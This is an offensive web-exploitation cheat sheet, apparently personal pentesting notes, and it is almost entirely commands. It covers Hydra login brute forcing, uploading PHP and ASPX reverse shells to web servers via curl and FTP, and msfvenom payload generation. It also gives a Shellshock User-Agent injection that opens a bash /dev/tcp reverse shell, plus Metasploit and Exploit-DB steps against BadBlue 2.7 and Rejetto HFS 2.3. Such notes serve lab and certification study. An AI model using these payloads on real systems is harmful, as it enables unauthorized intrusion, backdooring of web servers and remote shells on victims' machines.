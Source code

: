 # Web Exploitations

## HTTP Login Brute Force&#x20;

{% code overflow="wrap" %}
```bash
# first check the source code of the web page
# check the request method (POST,GET,...)
# check the login variable (user, password)
# check the error response in case of invalid creds

# use hydra tool to do login brute force
hydra -L usernames -P passwords IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```
{% endcode %}

## Put file in '/uploads' folder

```bash
#! copy a revshell in php  
cp /usr/share/webshells/php/php-reverse-shell.php .
# or generate a payload 
msfvenom -p php/meterpreter_reverse_tcp lhost=IP lport=PORT -o shell.php

# Request to upload a file with revshell
curl http://IP/uploads/ --upload-file php-reverse-shell.php

# Delete file uploaded
curl -X DELETE http://IP/uploads/php-reverse-shell.php
```



## Backdoor Web via FTP

**Required:**

* WebServer connection via FTP
* User permissions to add file in web directory&#x20;

```bash
# Prepare the shell
ls -la /usr/share/webshells/
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
# Once we're in a web dir via ftp
put shell.php
```

```bash
# .aspx Payload
## create payload
msfvenom -p windows/shell/reverse_tcp LHOST=ATT_IP LPORT=ATT_PORT -f asp > shell.aspx
## -p: paylaod to use
## LHOST: attacker ip
## LPORT: attacker listener port
## -f: output format

## put payload via ftp (in ftp connection)
put shell.aspx

# set up msfconsole handler
service postgresql start && msfconsole
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST ATT_IP
set LPORT ATT_PORT
```



## Targeting PHP

```bash
# PHP Enum file
/phpinfo.php


# Search vulnerable php version
searchsploit php cgi
## Select a exploit and copy it
searchsploit -m EXPLOIT_ID
vim EXPLOIT_ID
```



## Know vulns

### Shellshock

#### Manual Exploitation

```bash
# Search a .cgi sccript
 
# Run nmap script for shellshock vuln check
nmap -sV $IP --script=http-shellshock --script-args "http-shellshock.uri=/$SCRIPT.cgi"
 
# intercect the request with .cgi script vuln and edit the User-Agent header with Burp Suit
GET /test.cgi
user-Agent: () { : ; }; echo; echo; /bin/bash -c '$CMD'
 
# get a revshell
# edit $CMD field with rev shell (burp)
bash -i >/dev/tcp/$IP/$PORT 0>&1
 
# set listener port in kali machine
nc -lnvp $PORT
```

#### Automatic Explotation

```bash
#start metasploit console with database
service postgresql start && msfconsole
 
#search, conf and run metasploit module
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS IP
set RPORT PORT
set TARGETURI SCRIPT_PATH
exploit
```

### Badblue (2.7)

#### Metasploit Exploitation

```bash
searchsploit BadBlue 2.7

# BadBlue 2.7
service postgresql start && msfconsole
search BadBlue
use exploit/windows/http/badblue_passthru
set RHOSTS IP
show options
exploit
```



### Rejetto (HttpFileServer 2.3)

#### Manual Exploitation

```bash
# Search exploit
searchsploit rejetto
# Copy the script
searchsploit -m 39161
```

1. Read and edit python script (ip\_addr, local\_port)
2. Set listener (nc -nvlp 1234)
3. Set a python web server in a directory where there is nc.exe file (python3 -m http.server 80)\
   -> (/usr/share/windows-resources/binaries)
4. run the script (python3 39161.py IP PORT)

#### Metasploit Exploitation

```bash
service postgresql start && msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS
set TARGETURI
exploit
```
